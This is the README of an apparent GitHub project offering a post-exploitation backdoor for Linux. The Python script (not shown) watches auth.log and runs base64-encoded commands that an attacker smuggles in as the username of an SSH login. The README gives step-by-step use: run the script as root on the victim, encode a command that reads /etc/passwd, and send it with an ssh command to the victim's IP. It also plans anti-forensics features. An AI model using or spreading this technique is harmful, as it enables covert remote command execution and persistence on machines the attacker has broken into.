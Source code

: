 # ssh-authlog-backdoor

A post exploit python script that watches auth.log for a keyword then executes base64 encoded commands.  


## How to use

1. Execute the script as root on the victim box.

2. Encode a command in base64 by using an online service or how ever you can get base64. https://www.base64encode.org/
   Example
   ``` cat /etc/passwd > /tmp/test ```
   is
   ```Y2F0IC9ldGMvcGFzc3dkID4gL3RtcC90ZXN0```
3. From an attacking box initiate an ssh connection as the user ```shadow---``` + ```base64 encoded command```
   Full example ```ssh shadow---Y2F0IC9ldGMvcGFzc3dkID4gL3RtcC90ZXN0@VICTIM.IP``` 
   
 
### TODO
1. Make client to run on attacker box that can handel responces sent out by backdoor. (Semi-interactive shel)
2. Use better encoding/encryption on commands to aid in anti-forensics 
